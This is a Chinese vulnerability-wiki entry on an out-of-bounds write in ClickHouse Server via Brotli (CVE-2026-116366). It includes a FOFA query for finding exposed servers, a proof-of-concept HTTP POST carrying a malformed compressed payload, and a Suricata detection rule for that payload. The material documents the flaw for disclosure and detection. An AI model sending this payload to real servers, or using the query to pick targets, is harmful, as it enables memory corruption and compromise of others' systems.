

<!-- vulwiki-editorial:start -->
## 校订与适用边界

### 本次收录记录
- 2026-11-17 周维护收录：来源 SourByte05/Vulnerability-Wiki-PoC；文本全文审阅完成；未执行任何 PoC、依赖安装或目标访问。
- 触发材料（请求/指纹/规则）保留在下方原文中，未做脱敏或删改。
- CVE/产品查重：无重复主入口（本库 master 6314 篇正文级搜索无既有条目）

### 尚未解决的证据缺口
- 影响版本为来源声明，未与厂商公告逐一核对
- 复现截图像素未查看，技术结论以原文文字为准
- 修复状态为来源声明，需按分支核对补丁版本
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

> 以下为来源原文全文（保留原始字节，含广告与联系方式的保留原文）。

# ClickHouseServer-CVE-2026-116366-越界写入

ClickHouseServer-CVE-2026-116366-越界写入

# 影响版本

brotli = 1.2.0

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   app="ClickHouse"

**POC/EXP：**

**step1**  越界写入

本质是`Brotli `的漏洞，ClickHouse引用了问题组件

```
POST /?max_query_size=20000000 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Content-Encoding: br
Content-Type: application/x-www-form-urlencoded

{{hexdec(200010414141fcffff07002228f00b60f7f41f00000000000000000000000000000000000000)}
```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"ClickHouse Server - 越界写入漏洞 (CVE-2026-116366, max_query_size+hexdec畸形负载)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"max_query_size="; nocase; fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded"; nocase;
    http.request_body;
        content:"{{hexdec("; nocase;
        content:"fcffff07"; nocase; distance:0; within:200;
    metadata:
        service http,
        affected_product "ClickHouse Server",
        vulnerability_type "Out-of-Bounds Write",
        severity "critical",
        reference "CVE-2026-116366";
    classtype:web-application-attack;
    sid:1000815;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（原文见文首链接，归档 URL 见 frontmatter source_url）